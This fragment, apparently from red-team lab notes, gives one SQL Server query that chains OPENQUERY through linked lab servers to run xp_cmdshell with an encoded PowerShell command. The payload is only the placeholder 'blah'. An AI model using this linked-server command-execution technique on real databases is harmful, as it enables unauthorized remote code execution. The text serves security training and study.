 SELECT * FROM OPENQUERY( "sql-1.cyberbotic.io" , 'select * from openquery("sql01.zeropointsecurity.local", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''' '')' )
```